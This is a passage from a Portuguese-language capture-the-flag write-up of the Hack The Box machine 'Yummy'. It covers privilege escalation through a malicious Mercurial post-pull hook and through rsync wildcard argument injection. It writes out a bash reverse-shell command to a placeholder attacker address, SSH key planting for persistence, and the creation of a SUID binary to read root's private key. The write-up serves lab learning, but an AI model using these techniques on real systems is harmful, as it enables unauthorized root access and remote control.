Indicando que o usuário `qa` pode executar o comando listado como usuário `dev`. Com essas informações, é possível elaborar um ataque para escalar privilégios para o usuário `dev`. Primeiro, é necessário copiar o arquivo `.hgrc` para um subdiretório `.hg` a qual o usuário `qa` tenha permissão de escrita; depois, criar um script BASH com um payload de shell reversa, e então fazer com que esse arquivo seja executado com um hook de post-pull pelo Mercurial:

```bash
mkdir -p /tmp/privesc/.hg
chmod 777 /tmp/privesc/.hg
cp ~/.hgrc /tmp/privesc/.hg/hgrc
# Alterar {IP} pelo endereço da máquina e {PORTA} pela porta do listener
echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/{IP}/{PORTA} 0>&1' | tee /tmp/reverse-shell.sh
chmod +x /tmp/reverse-shell.sh
echo -e "[hooks]\npost-pull = /tmp/reverse-shell.sh" | tee -a /tmp/privesc/.hg/hgrc
cd /tmp/privesc
sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

Agora, basta acionar o hook realizando um pull no repositório, e a shell reversa será estabelecida:

<figure><figcaption><p>HTB Yummy - Explorando o hook post-pull do Mercurial</p></figcaption></figure>

Para não ficar como uma shell limitada, adicionei a chave pública da minha máquina ao arquivo `~/.ssh/authorized_keys` da máquina remota, e então autentiquei como usuário `dev` via SSH mesmo sem ter a senha do usuário.

### Escalação de Privilégio Vertical

Considero ter sido a parte mais fácil dessa máquina; logo após fazer login como usuário `dev`, é possível executar o comando `sudo -l` e encontrar a seguinte entrada:

```bash
Matching Defaults entries for dev on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

O problema na entrada acima é a utilização do wildcard `*`, que permite injetar argumentos para o comando `rsync`. Consultando a documentação do comando `rsync`, é possível encontrar flags como `--chown` e `--chmod`, que permitem manipular as permissões dos arquivos copiados. De início, copiei o binário `cat` para o direotório `/home/dev/app-production` e criei arquivos que tinham como nome as flags `--chown` e `--chmod`, alterando a permissão dos arquivos copiados. Passando o SUID como parâmetro do `chmod`, foi possível criar um binário cat que persistia as permissões do usuário `root`, permitindo ler arquivos sensíveis (como a chave privada desse usuário):


<figure><figcaption><p>HTB Yummy - Binário com SUID por meio de wildcard no rsync</p></figcaption></figure>

Por mais que eu tenha feito dessa forma, algum tempo depois um usuário do fórum entrou em contato comigo e compartilhou uma outra solução, que seria passando os parâmetros diretamente no comando. Como o wildcard se encontra antes do diretório de destino, é possível especificar os parâmetros diretamente no comando:

<figure><figcaption><p>HTB Yummy - Binário com SUID por meio de wildcard no rsync privilegiado</p></figcaption></figure>
